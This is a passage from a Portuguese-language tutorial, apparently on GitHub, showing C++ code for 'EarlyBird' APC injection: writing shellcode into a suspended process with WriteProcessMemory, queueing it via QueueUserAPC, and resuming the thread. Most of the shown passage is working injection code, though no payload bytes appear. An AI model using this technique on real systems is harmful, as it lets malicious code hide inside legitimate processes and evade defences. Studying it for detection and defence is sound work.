```cpp
    std::cout << "[+] Trying to write shellcode at allocated memory..." << std::endl;
    SIZE_T numberOfBytesWritten = 0;
    status = WriteProcessMemory(procInfo.hProcess, shellcodeRemoteLocation, shellcode, sizeof(shellcode), &numberOfBytesWritten);
    if (!status) {
        std::cerr << "Error on WriteProcessMemory: " << GetLastError() << std::endl;
        return 1;
    }
    std::cout << "   \\_ [+] Shellcode wrote successfully" << std::endl;
```

Iremos novamente fazer o uso da [QueueUserAPC](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc) para enfileirarmos o nosso shellcode remoto na thread principal do processo ainda em suspensão.

Para isso, iremos fazer um casting da região que alocamos no processo vítima para um ponteiro de uma função APC (`PAPCFUNC`), a thread principal do programa (obtida por `procInfo.hThread`) e NULL como último parâmetro para indicarmos que o shellcode não necessita de argumentos.

```cpp
    std::cout << "[+] Attempting to call shellcode via QueueUserAPC..." << std::endl;
    QueueUserAPC((PAPCFUNC)shellcodeRemoteLocation, procInfo.hThread, NULL);
```

Em resumo, teremos uma região de memória RWX alocada em um outro processo, que está armazenando um shellcode que foi enfileirado como uma APC da thread principal. Agora o que nos resta é resumir a thread principal, com `ResumeThread`.

```cpp
    ResumeThread(procInfo.hThread);
    std::cout << "   \\_ [+] Success" << std::endl;

    std::cout << "[+] EarlyBird injection successful :)" << std::endl;
}
```

O resultado está expresso na imagem abaixo.

![b490da5b43f58e192d19df97a8f6bded.png](img/b490da5b43f58e192d19df97a8f6bded.png)
